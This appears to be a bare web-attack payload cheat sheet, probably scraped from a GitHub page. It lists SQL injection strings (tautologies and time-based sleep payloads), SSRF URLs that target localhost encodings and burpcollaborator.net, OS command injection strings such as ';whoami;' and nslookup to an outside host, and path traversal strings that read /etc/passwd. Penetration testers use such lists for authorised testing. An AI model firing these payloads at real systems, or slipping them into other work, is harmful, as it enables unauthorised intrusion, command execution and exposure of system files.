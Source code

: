 # SQLi
'
' or 1=1-- -
 or '1'='1'-- -
' or sleep(3)-- -
1' or sleep(3)-- -
1 or sleep(3)-- -
1337-sleep(3)-- -
(select*from(select(sleep(3)))a)-- -
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z-- -
1'XOR(if(now()=sysdate(),sleep(3),0))OR'-- -
' or 1=1
 or '1'='1
' or sleep(3)
1' or sleep(3)
1 or sleep(3)
1337-sleep(3)
(select*from(select(sleep(3)))a)
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
1'XOR(if(now()=sysdate(),sleep(3),0))OR'
"' or sleep(30)='"
127.0.0.1' AND (SELECT * FROM (SELECT(SLEEP(5)))x) AND '1'='1
# SSRF
http://localhost/
http://127.0.0.1/
http://127.1
http://2130706433
http://017700000001
http://[::]:80/
http://burpcollaborator.net
http://localhost/?%0A
http://127.0.0.1/?%0A
http://127.1/?%0A
http://2130706433/?%0A
http://017700000001/?%0A
http://[::]:80/?%0A
http://burpcollaborator.net/?%0A
# OS command Injection
;whoami;
;sleep 10;
nslookup+burpcollaborator.net
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1
# Path Traversal
../../../etc/passwd
..//..//..//..//etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/..//..//..//..//etc/passwd
/var/www/images/....//....//....//....//etc/passwd
